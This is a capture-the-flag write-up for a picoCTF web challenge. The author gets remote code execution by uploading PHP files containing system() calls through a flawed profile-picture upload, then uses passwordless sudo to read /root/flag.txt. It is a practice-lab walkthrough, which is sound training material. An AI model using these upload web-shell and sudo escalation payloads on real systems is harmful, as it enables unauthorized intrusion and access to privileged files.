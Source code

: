 # URL
https://play.picoctf.org/practice/challenge/482?category=1&page=1
# Challenge
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
You can access the web application here!
# Method of Solving
* After doing CTFs for a while, I instantly noticed it likely had to do with a file upload -> RCE.
* I've decided to use a PHP file upload
```
  <?php system('echo hello'); ?>
```
* When uploading, the website tells us: "The file exploit.php has been uploaded Path: uploads/exploit.php" All I had to do was navigate here: http://standard-pizzas.picoctf.net:63316/uploads/exploit.php
* Surprisingly, the website just says "hello," meaning the PHP code does execute on the server
* The hints tell us to run the command sudo -l (sudoers), so let's run that!
  ```
  <?php system('sudo -l'); ?>
  ```
  * To no surprise, Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin User www-data may run the following commands on challenge: (ALL) NOPASSWD: ALL, we can run commands as any user
  * Modify the PHP script
    ```
    <?php system('sudo cat /root/flag.txt'); ?>
    ```
  * After the upload, I head over to the website to find out that indeed it works since the flag is printed!
  
  
